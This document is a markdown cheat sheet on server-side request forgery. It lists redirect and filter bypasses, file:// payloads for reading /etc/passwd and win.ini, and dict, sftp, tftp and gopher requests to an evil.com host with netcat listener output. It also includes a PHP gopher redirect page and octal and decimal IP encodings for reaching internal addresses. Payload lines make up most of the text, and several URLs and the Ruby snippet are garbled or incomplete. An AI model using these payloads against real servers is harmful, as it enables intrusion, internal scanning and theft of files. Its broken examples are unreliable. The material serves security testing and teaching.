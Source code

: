 ## What can we do with SSRF 
1. SSRF to reflection XSS    
2. Try to use URL to access internal resources and make the server perform operations (file: ///, dict: //, ftp: //, gopher: // ..)    
3. Scan internal networks and ports    
4. If it is running on a cloud instance, you can try to get metadata    

### Change the writing of IP address
Some developers will filter out the intranet IP by regular matching the passed URL parameters. For example, the following regular expressions are used:    

The bypassing technique here is similar to the URL redirection bypass or SSRF bypassing technique.
```
^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$
^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
```

1. Single slash "/" bypass   

`https://www.xxx.com/redirect.php?url=/www.evil.com`

2. Missing protocol bypass

`https://www.xxx.com/redirect.php?url=//www.evil.com`

3. Multi-slash "/" prefix bypass

`https://www.xxx.com/redirect.php?url=///www.evil.com`

`https://www.xxx.com/redirect.php?url=////www.evil.com`

4. Bypass with "@"

`https://www.xxx.com/redirect.php?url=https://www.xxx.com@www.evil.com`

5. Use backslash "\" to bypass

`https://www.xxx.com/redirect.php?url=https://www.evil.com\https://www.xxx.com/`

6. Bypass with "#"

`https://www.xxx.com/redirect.php?url=https://www.evil.com#https://www.xxx.com/`

7. Bypass with "?"

`https://www.xxx.com/redirect.php?url=https://www.evil.com?www.xxx.com`

8. Bypass with "\\"

`https://www.xxx.com/redirect.php?url=https://www.evil.com\\www.xxx.com`

9. Use "." to bypass

`https://www.xxx.com/redirect.php?url=.evil`         
`https://www.xxx.com/redirect.php?url=.evil.com`

10. Repeating special characters to bypass

`https://www.xxx.com/redirect.php?url=///www.evil.com// ..`
`https://www.xxx.com/redirect.php?url=////www.evil.com// ..`


#### As talked about in "Understanding SSRF" there are 2 types of SSRF 
A. Show response to attacker (basic)     
B. Do now show response (blind)   

#### Basic 
As mentioned above, it shows the response to the attacker, so after the server gets the URL requested by the attacker, it will send the response back to the attacker.
DEMO (using Ruby).
Install the following packages and run the code
`gem install sinatra`
```ruby

require 'sinatra'
require 'open-uri'
 
get '/' do
  format 'RESPONSE: %s', open(params[:url]).read
```
The above code will open the local server port 4567 (taken from Jobert's POST hes in the references somewhere)    
`http: // localhost: 4567 /? url = contacts will open the contacts file and display the response in the front end`   
`http: // localhost: 4567 /? url = / etc / passwd will open etc / passwd and respond to the service`   
`http: // localhost: 4567 /? url = https: //google.com will request google.com on the server and display the response`      

Just get the file from an external site with a malicious payload with a content type of html. 
Example:   
`Example: http: // localhost: 4567 /? Url = http: //brutelogic.com.br/poc.svg`    

#### Test URL patterns 
When we found ssrf, the first thing to do was test all the wrappers that worked.    
```
file:///
dict://
sftp://
ldap://
tftp://
gopher://
```

#### file: //-
File is used to get files from the file system    
`http://example.com/ssrf.php?url=file:///C:/Windows/win.ini`   
`http://example.com/ssrf.php?url=file:///etc/passwd`   
If the server blocks http requests to external sites or whitelists, you can simply use the following URL pattern to make the request:    

#### dict: //-
DICT URL scheme is used to represent a list of definitions or words available using the DICT protocol:
`http://example.com/ssrf.php?dict://etc/passwd`    
```
http://example.com/ssrf.php?dict://evil.com:1337/
 
evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 31126)
CLIENT libcurl 7.40.0
```

#### sftp: //-
Sftp stands for SSH File Transfer Protocol, or Secure File Transfer Protocol. It is an embedded protocol of SSH and is similar to SSH in secure connections.    
```

http://example.com/ssrf.php?url=sftp://evil.com:1337/
 
evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 37146)
SSH-2.0-libssh2_1.4.2
```

#### ldap: // or ldaps: // or ldapi: //-
LDAP stands for Lightweight Directory Access Protocol. It is an application protocol for managing and accessing distributed directory information services through an IP network.
`http://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit`   
`http://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquit`   
`http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquit`   

#### tftp: //- 
Simple File Transfer Protocol is a simple lockstep file transfer protocol that allows clients to retrieve files from a remote host or place files on a remote host.    
```
http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET
 
evil.com:# nc -lvup 1337
Listening on [0.0.0.0] (family 0, port 1337)
TESTUDPPACKEToctettsize0blksize512timeout3
```

#### gopher: //-
Gopher is a distributed document delivery service. It allows users to explore, search and retrieve information residing in different locations in a seamless way.     
```
http://example.com/ssrf.php?url=http://attacker.com/gopher.php
gopher.php (host it on acttacker.com):-
<?php
   header('Location: gopher://evil.com:1337/_Hi%0Assrf%0Atest');
?>
 
evil.com:# nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 49398)
Hi
ssrf
test
```

#### the next bypass are kinda bad but....
http://127.0.0.1:80`

`http: // localhost: 22`

`http: // [::]: 80 / >>> http://127.0.0.1`

`http: //example.com@127.0.0.1`

`127.0 0. 1 >>> 127.0.0.1`

You can do some special character sets such as seen below:    
![Capture](https://user-images.githubusercontent.com/25066959/70392957-2c391400-19b3-11ea-88ef-41884ac39029.PNG)

#### Base Bypass
Can be hexadecimal, octal, etc.   

`115.239.210.26 >>> 16373751032`    

First convert these four numbers to hexadecimal, the result is: 73 ef d2 1a    

Then convert the 73efd21a hexadecimal into octal    

Remember to add 0 when you visit to use octal (can be a 0 or multiple 0s, and add a few more 0s in XSS to bypass filtering), and add 0x in hexadecimal    

`http://127.0.0.1 >>> http://0177.0.0.1/`

`http://127.0.0.1 >>> http: // 2130706433 /`

`http://192.168.0.1 >>> http: // 3232235521 /`

`http://192.168.1.1 >>> http: // 3232235777 /`


